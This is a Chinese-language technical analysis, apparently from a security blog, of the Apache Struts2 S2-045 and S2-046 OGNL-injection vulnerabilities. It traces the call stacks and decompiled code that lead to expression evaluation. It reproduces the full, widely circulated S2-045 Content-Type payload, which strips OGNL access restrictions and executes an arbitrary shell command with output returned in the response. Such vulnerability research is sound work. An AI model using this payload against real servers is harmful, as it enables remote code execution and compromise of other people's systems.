 ```
                    }
                }
	}	
    }
}
```
看一下漏洞触发的调用栈，`LocalizedTextUtil.findText()`,会把错误信息提取出来，然后错误信息`the request doesn't contain a multipart/form-data or multipart/mixed stream, content type header is \payload\`会被`TextParseUtil.translateVariables()`进行处理。根据之前对这个方法的分析，处理时会将错误信息中的`${}`或`%{}`中的内容提取出来并进行计算。
```
DefaultActionInvocation.invoke()
  FileUploadInterceptor.intercept()
    LocalizedTextUtil.findText()
      LocalizedTextUtil.getDefaultMessage()
        TextParseUtil.translateVariables()
          OgnlTextParser.evaluate()
```
所以这个漏洞的一个成因在于，在Dispatcher时，Content-Type的要求是`contains("multipart/form-data")`，但是真正处理文件上传时要求以`multipart`开头。否则就报错，并对错误信息进行OGNL计算。那么就可以构造一个Content-Type头部包含`multipart/form-data`，但是又不以它开头的payload。网上流传最广的payload如下
```
Content-Type: %{(#fuck='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='open -a Calculator.app').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

### S2-046
S2-046与S2-045很类似。同样是Jakarta Multipart解析器进行执行文件上传时报错造成了OGNL解析。`JakartaMultiPartRequest.parse()`解析还是定位到如下代码
```
public void parse(HttpServletRequest request, String saveDir) throws IOException {
    try {
        this.processUpload(request, saveDir); // 如果不是以`multipart开头会走到catch`
    } catch (FileUploadException var6) {
        errorMessage = this.buildErrorMessage(var6, new Object[0]); // 对错误信息中的OGNL进行解析
    }
```
只是这个漏洞processUploader报错的原因不是因为判断Content-Type是否以`multipart`开头
```java
protected void processUpload(HttpServletRequest request, String saveDir) throws FileUploadException, UnsupportedEncodingException {
    Iterator i$ = this.parseRequest(request, saveDir).iterator(); // 这里S2-045会对头部进行判断
    ...
    this.processFileField(item); // S2-046则是走到这步，判断item.getName()是否为null，后续调用checkFileName()判断上传文件名是否为空，
}
```
而是filname中包含`\u0000`造成报错
```java
public static String checkFileName(String fileName) {
    if (fileName != null && fileName.indexOf(0) != -1) {
        ...
        for(int i = 0; i < fileName.length(); ++i) {
	    char c = fileName.charAt(i);
   	    switch(c) {
	    case '\u0000':
	        sb.append("\\0");
	        break;
```